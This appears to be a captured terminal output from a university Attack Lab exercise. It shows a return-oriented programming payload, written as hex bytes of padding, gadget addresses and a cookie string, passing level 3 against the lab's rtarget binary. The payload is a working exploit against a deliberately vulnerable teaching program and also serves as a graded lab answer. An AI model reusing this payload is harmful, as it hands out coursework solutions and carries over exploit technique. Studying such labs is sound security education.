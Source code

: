 ```shell
$ ./rtarget -qi rl3raw.txt
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 40 00 00 00 00 00 00 00 72 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00
```











